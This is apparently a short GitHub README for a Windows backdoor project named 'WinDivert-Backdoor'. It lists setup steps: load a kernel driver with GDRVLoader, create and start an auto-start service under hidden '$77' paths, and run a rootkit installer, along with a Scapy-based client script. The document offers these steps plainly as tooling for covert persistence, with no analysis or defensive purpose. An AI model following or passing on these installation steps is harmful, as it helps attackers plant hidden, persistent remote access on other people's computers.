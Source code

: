 # WinDivert-Backdoor
## Server
1. Install driver with GDRVLoader.exe </br>
`GDRVLoader.exe C:\$77folder\$77kernel.sys` 
3. Install service </br>
`sc create $77service binPath= "C:\$77folder\$77service.exe" start= auto`
5. Start service </br>
`sc start $77service`
6. Install rootkit </br>
`Install.exe`
## Client
1. [Install Scapy](https://scapy.readthedocs.io/en/latest/installation.html)
2. Download client.py script
3. Flourish

